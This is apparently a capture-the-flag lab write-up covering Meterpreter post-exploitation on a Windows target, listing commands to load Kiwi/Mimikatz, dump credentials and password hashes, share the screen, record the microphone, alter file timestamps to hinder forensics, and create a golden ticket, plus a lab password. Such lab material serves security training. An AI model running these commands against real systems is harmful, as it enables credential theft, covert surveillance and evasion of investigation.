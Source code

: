 ![image](https://github.com/user-attachments/assets/b3072cee-555e-4458-b114-769c021485ea)


### After migratre check for uid, as we sucessfully migrated and we are noW NT AUTHORITY.

### Let loot the site 
```
load kiwi
```
* ###  Kiwi extensions to perform various types of credential-oriented operations, such as dumping passwords and hashes, dumping passwords in memory, generating golden tickets, and much more.
![image](https://github.com/user-attachments/assets/e61fc830-fb43-4d0a-a7a9-2b8ae6237c12)

### We can use help command to get help of kiwi.
### So first we going to Retrieve all credentials.
```
creds_all
```

![image](https://github.com/user-attachments/assets/442eb822-c961-4845-839d-2cd9eb6e9b0a)

* ### The password for dark is ```Password01!```.

## <div align="center">Task 6. Post-Exploitation</div>

### Let dump all the passwords.
```
hashdump
```

### We can also share the screen of target using 
```
screenshare
```

![image](https://github.com/user-attachments/assets/8774abf3-f319-4e73-9ef9-919e47fa2438)

### We can even record from a microphone attached to the system using command.
```
record_mic
```

### To complicate forensics efforts we can modify timestamps of files on the system. What command allows us to do this?
```
timestomp
```
### Mimikatz allows us to create what's called a `golden ticket`, allowing us to authenticate anywhere with ease. What command allows us to do this?
```
golden_ticket_create
```

## Thankyou 😄
